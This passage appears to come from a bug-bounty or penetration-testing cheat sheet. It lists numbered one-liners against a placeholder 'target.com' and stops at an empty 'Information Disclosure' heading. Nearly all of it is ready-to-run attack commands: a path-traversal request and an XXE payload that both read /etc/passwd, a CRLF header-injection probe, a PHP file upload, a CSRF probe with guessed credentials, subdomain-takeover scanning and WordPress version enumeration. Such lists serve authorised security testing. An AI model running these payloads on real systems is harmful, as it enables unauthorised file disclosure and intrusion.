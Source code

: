 curl '[https://target.com/page.php?page=../../../../etc/passwd](https://target.com/page.php?page=../../../../etc/passwd)'

## 31. WordPress version enumeration

curl -s '[https://target.com/readme.html](https://target.com/readme.html)' | grep 'Version'

## 32. Subdomain takeover testing using subjack

subjack -w subdomains.txt -a -t 100 -v -o takeover.txt -ssl

## 33. HTTP header injection testing

curl -H 'X-Forwarded-For: 127.0.0.1\\r\\nUser-Agent: Mozilla/5.0' '[https://target.com/](https://target.com/)'

## 34. File upload testing

curl -X POST -F 'file=@test.php' '[https://target.com/upload.php](https://target.com/upload.php)'

## 35. Cross-site request forgery (CSRF) testing

curl -X POST -d 'name=admin&password=123456&csrf\_token=123456' '[https://target.com/login.php](https://target.com/login.php)'

## 36. XXE (XML External Entity) injection testing

curl -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo \[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">\]><foo>&xxe;</foo>' '[https://target.com/xxe.php](https://target.com/xxe.php)'

## 37. Get Content-Type

echo [abc.com](http://abc.com/) | gau | grep '\\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

## 38. Fuzz with FFUF

assetfinder [http://att.com](http://att.com/) | sed 's#\*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'

## 39. Extract URL from .apk file

apktool -d com.uber -o uberAPK; grep -Phro "(https?://)\[\\w\\,-/\]+\[\\"\\'\]" uberAPK/ | sed 's#"##g' | anew | grep -v "w3\\|android\\|github\\|schemes.android\\|google\\|[goo.gl](http://goo.gl/)"

## 40. Information Disclosure
